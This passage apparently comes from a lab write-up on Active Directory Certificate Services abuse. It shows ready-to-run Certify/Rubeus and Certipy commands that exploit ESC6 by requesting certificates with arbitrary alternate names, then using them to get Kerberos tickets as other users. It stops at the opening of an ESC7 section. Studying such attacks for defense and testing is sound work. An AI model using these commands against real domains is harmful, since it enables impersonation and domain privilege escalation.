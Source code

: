 <img src="/images/2022-09-16/esc6_recon3.png">   

### Exploitation  

#### Certify  

```
.\Certify.exe request /ca:'DC2016-2.mcafeelab.local\mcafeelab-DC2016-2-CA-1' /template:"user" /altname:"god" /install
.\Rubeus.exe asktgt /domain:mcafeelab.local /dc:dc2016-2.mcafeelab.local /user:god /certificate:god.pfx /password:test /ptt
```  

#### Certipy  

```
certipy req -u 'lowpriv@mcafeelab.local' -p 'low' -target 'dc2016-2.mcafeelab.local' -ca 'mcafeelab-DC2016-2-CA-1' -template 'user' -upn 'ds@mcafeelab.local'
certipy auth -pfx 'ds.pfx' -dc-ip '10.55.0.2' -username 'ds' -domain 'mcafeelab.local'
```  

## ESC7  

Here again we are talking about ACLs, this time on the CA itself. We can grant the rights to manage the CA as well as the ones to issue and manage certs:  
